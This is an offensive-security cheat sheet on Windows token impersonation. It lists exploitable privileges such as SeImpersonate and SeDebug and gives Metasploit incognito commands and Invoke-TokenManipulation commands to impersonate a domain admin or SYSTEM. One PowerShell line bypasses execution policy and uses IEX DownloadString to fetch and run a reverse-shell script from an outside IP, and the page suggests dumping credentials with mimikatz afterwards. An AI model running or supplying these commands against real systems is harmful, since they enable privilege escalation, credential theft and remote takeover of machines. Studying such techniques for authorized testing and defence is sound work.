 # Token Impersonation

Token impersonation is a technique through which a Windows local administrator could steal another user’s security token in order to impersonate and effectively execute commands as that user.

That are certain privileges in Windows that, if enabled, could lead to an attacker escalating privileges to SYSTEM or any other user account with an active and valid token on that system, through various tools that have been designed to specifically exploit this vulnerability.

### <mark style="color:orange;">**Exploitable Privileges**</mark>

Certain privileges can be exploited to either escalate privileges directly to SYSTEM or to perform actions that are normally restricted. The privileges listed below can grant direct admin access when exploited:

| Privilege            | Impact | Tool              |
| -------------------- | ------ | ----------------- |
| SeAssignPrimaryToken | Admin  | 3rd party tool    |
| SeImpersonate        | Admin  | 3rd party tool    |
| SeBackupPrivilege    | Admin  | 3rd party tool    |
| SeBackup             | Threat | Built-in commands |
| SeCreateToken        | Admin  | 3rd party tool    |
| SeDebug              | Admin  | PowerShell        |
| SeLoadDriver         | Admin  | 3rd party tool    |
| SeRestore            | Admin  | PowerShell        |
| SeTakeOwnership      | Admin  | Built-in commands |
| SeTcb                | Admin  | 3rd party tool    |

full list is here:

{% embed url="https://github.com/gtworek/Priv2Admin" %}

### <mark style="color:orange;">Using Metasploit</mark>

in your meterpreter shell load incognito module:

```
load incognito
```

list available tokens:

```
list_tokens -u
```

Impersonate Administrator:

```
impersonate_token megacorp\\administrator
```

### <mark style="color:orange;">Invoke-TokenManipulation</mark>

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1" %}

Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"

Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"
```

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`

```
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

## <mark style="color:red;">Other Techniques</mark>

{% embed url="https://steflan-security.com/linux-privilege-escalation-token-impersonation" %}

{% embed url="https://decoder.cloud/2017/12/23/the-lonely-potato" %}
